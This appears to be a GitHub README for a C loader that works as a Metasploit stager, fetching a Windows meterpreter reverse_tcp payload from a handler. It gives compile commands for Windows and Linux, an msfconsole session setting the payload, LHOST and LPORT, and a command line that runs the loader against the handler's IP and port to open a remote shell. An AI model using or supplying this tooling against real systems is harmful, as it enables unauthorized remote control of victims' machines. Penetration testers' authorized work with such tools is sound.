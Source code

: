 A quick stager client compatible with the Metasploit Framework

Reference:

1. http://mail.metasploit.com/pipermail/framework/2012-September/008660.html
2. http://mail.metasploit.com/pipermail/framework/2012-September/008664.html

Use:

1. Start a multi/handler with your favorite windows reverse_tcp payload
2. Edit line 12 and 13 with credencias
unsigned char server[] = "yourNoip.no-ip.org";
unsigned char serverp[] = "YourPort";

How to compile:

Windows
. Donwload gcc-4.9-win32
1. gcc metasploit-loader.c -o metasploit-loader.exe -lws2_32

LINUX 
. apt-get install mingw32
1. i586-mingw32msvc-gcc metasploit-loader.c -o metasploit-loader.exe -lws2_32

ToDo:

1. 64-bit compatability (see message #2)
2. get a Windows build environment with make

How to use:
```
msf > use exploit/multi/handler 
msf  exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf  exploit(handler) > set LPORT 31337
LPORT => 31337
msf  exploit(handler) > set LHOST 192.168.95.241
LHOST => 192.168.95.241
msf  exploit(handler) > exploit -j
```

loader.exe 192.168.95.241 31337
